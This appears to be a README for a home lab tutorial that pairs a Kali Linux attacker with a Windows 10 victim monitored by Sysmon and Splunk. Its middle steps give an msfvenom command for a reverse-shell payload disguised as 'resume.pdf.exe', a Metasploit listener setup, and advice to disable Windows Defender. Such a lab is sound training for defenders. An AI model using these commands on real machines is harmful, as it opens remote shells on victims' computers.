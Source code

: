 # 🖥️❗ Cybersecurity Home Lab: Detection attacks using Splunk

## Introduction

1. Step 1: Creating Virtual Machines
2. Step 2: Setting Up Splunk for Log Tracking
3. Step 3: Adding Sysmon to Windows 10
4. Step 4: Crafting Malware with msfvenom
5. Step 5: Configuring a Metasploit Listener
6. Step 6: Analyzing Logs in Splunk
7. Fixing Issues
8. Future Ideas
Contributing
Wrap-Up

## 📝 Introduction
This project guides you through building a home lab to practice cybersecurity skills. It includes an attacking system (Kali Linux), a victim system (Windows 10 virtual machine), and a log-monitoring tool (Splunk) to observe and analyze malicious actions. You’ll set up virtual environments, configure logging with Sysmon, create malware using msfvenom, and track the results in Splunk.

## 🛠️ What You’ll Need
| Requirement                  | Description                                      |
|------------------------------|--------------------------------------------------|
| **RAM**                      | At least **16GB** (to run multiple VMs)         |
| **Virtualization Software**  | VMware Workstation or VirtualBox                |
| **Operating Systems**        | ISO files for Windows 10 and Kali Linux         |
| **Logging Tools**            | Splunk and Sysmon setup files                   |
| **Internet Connection**      | Required for downloading and configuring tools  |


## 🌐 Network Layout
Here’s a basic diagram of how the systems connect:

```
   [Kali Linux (Attacker - 192.168.20.11)]  --->  [Windows 10 VM (Defender - 192.168.20.10)]  --->  [Splunk (Log Monitoring)]
```
Kali launches an attack on the Windows VM, and Splunk captures the logs for review.

## Step 1: Creating Virtual Machines
### 1.1 Kali Linux (Attacker Setup)
Grab the Kali Linux ISO from Kali’s site.
Set up a new VM in your virtualization software and install Kali.
Update the system:
```
sudo apt update && sudo apt upgrade -y
```

### 1.2 Windows 10 (Victim Setup)
Download the Windows 10 ISO from Microsoft.
Create a VM and install Windows 10.
Make sure the VMs can communicate over the network.

> **Note:** The following link is for a more in-depth explanation on how to download and configure both VM's and the VM software: https://github.com/GeorgeOrt708/How-to-create-an-Attack-and-Defense-Cyber-Security-Lab

## Step 2: Setting Up Splunk for Log Tracking
Get Splunk Free from Splunk’s site.
Install it on your Windows 10 VM.
Launch Splunk, log in as admin, and turn on log collection.
## Step 3: Adding Sysmon to Windows 10
Download Sysmon from Microsoft Sysinternals.
Get a sample sysmonconfig.xml from Sysmon Modular.
Open PowerShell (Admin) and run:

```
cd "C:\Users\Downloads\sysmon"
.\sysmon64.exe -i sysmonconfig.xml
```
Check if Sysmon is active:

```
Get-Process sysmon64
```
## Step 4: Crafting Malware with msfvenom
On Kali, create a malicious file:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
This generates resume.pdf.exe, a disguised payload.
## Step 5: Configuring a Metasploit Listener
Start Metasploit on Kali:
```
msfconsole
```
Set up the listener:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Your_Attacker_IP>
set LPORT 4444
exploit
```
Run resume.pdf.exe on the Windows VM.
If it works, you’ll get a Meterpreter session:
```
meterpreter > sysinfo
```

## Step 6: Analyzing Logs in Splunk
In Splunk, search for suspicious activity:
```
index=main sourcetype=WinEventLog:Security
```
Look for signs of unauthorized access.
Set up alerts for unusual events.

## 🛡️ Fixing Issues
1. Metasploit Not Connecting
Turn off Windows Defender to avoid payload blocking.
Verify LHOST and LPORT match in msfvenom and Metasploit.
Run the payload with admin rights on Windows.
2. Splunk Missing Logs
Confirm Sysmon is installed and running.
Check that Splunk is set to collect Windows logs.
Restart Splunk and test the event index.


## 🎉 Conclusion
This project shows you how to:
* Build a home cybersecurity lab
* Launch and spot malware
* Use Splunk to watch for threats

> **Note:** These tools should only be used for educational purposes. Don’t misuse these skills!
